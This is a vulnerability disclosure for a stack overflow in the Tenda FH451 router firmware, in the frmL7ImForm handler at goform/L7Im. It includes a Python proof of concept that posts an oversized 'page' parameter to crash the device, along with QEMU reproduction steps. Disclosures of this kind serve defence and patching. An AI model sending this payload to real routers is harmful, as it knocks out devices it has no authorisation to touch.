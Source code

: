 # The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability

Firmware download link:https://tenda.com.cn/material/show/101629

Vulnerability URL:http://192.168.100.163/goform/L7Im

The vulnerability occurs in the function.`frmL7ImForm`

![](https://picture-1312228068.cos.ap-shanghai.myqcloud.com/202504022235740.png)

The program obtains the user input parameter "page" but does not check its size. When the input parameter is too large, it causes a stack overflow, leading to program crashes or exploitation.
Cross-referenced to the function route `L7Im` in the `frmL7ImForm` function.

![](https://picture-1312228068.cos.ap-shanghai.myqcloud.com/202504022236989.png)

Cross-referenced to the function `sub_2DBE0`, with attention to lines 44 and 47.

![](https://picture-1312228068.cos.ap-shanghai.myqcloud.com/202504022238355.png)

The path of the webpage where the vulnerability occurs is known to be `goform/L7Im`.

payload:(python)

```python
import requests

url = "http://192.168.100.163/goform/L7Im"

payload = {
   'page': b'a'*(0x100000)
}

res = requests.post(url=url, data=payload)
print("Status Code:", res.status_code)
print("Response:", res.text)
```

# Reproduction Steps

## Launch QEMU Emulation

Open the QEMU emulator to simulate the environment.

![](https://picture-1312228068.cos.ap-shanghai.myqcloud.com/202504022240892.png)

Run the script.

![](https://picture-1312228068.cos.ap-shanghai.myqcloud.com/202504022240996.png)

![](https://picture-1312228068.cos.ap-shanghai.myqcloud.com/202503281215926.png)

![](https://picture-1312228068.cos.ap-shanghai.myqcloud.com/202504022242551.png)

The router has crashed.

